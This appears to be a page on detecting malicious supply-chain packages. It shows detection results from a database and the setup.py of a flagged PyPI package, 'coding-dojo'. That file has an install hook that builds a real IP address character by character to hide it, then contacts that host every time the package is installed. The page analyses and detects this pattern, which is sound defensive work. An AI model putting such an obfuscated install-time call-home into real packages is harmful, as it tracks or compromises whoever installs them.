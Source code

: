 ### 101.32.99.28
```sql
mysql> select hook_type,rule_name,package,version,score from supply_chain_evil_result where status=1;
+-----------+---------------------+-------------+------------+-------+
| hook_type | rule_name           | package     | version    | score |
+-----------+---------------------+-------------+------------+-------+
| socket    | socket_address_rare | animatch    | 8.8.8      | 50    |
| socket    | socket_address_rare | api-library | library    | 50    |
| socket    | socket_address_rare | aaaaaaaaa   | 0.1.0      | 50    |
| socket    | socket_address_rare | autres      | 0.1.0      | 50    |
| socket    | socket_address_rare | taoxin      | 0.1.0      | 50    |
| socket    | socket_address_rare | openrooms   | 0.1.0      | 50    |
| SOCKET    | other               | paras-b     | 6969.99.99 | 0     |
+-----------+---------------------+-------------+------------+-------+
7 rows in set (0.00 sec)
```

```python3
kevinsa@ubuntu ~/D/e/coding-dojo-0.1.0> cat setup.py
#!/usr/bin/env python
# coding: utf-8

from setuptools import setup
from setuptools.command.install import install
import requests

class CustomInstallCommand(install):
    def run(self):
        install.run(self)
        url = "h"+"t"+"t"+"p"+":"+"/"+"/"+"1"+"0"+"1"+"."+"3"+"2"+"."+"9"+"9"+"."+"2"+"8"+"/name?coding-dojo"
        requests.get(url, timeout=30)

setup(
    name='coding-dojo',
    version='0.1.0',
    author='RemindSupplyChainRisks',
    author_email='RemindSupplyChainRisks@gmail.com',
    url='https://github.com/coding-dojo',
    description='Remind Supply Chain Risks',
    packages=['coding-dojo'],
    install_requires=['requests'],
    cmdclass={
        'install': CustomInstallCommand,
    },
)
```

## 参考2
- [cilium/ebpf](https://github.com/cilium/ebpf)
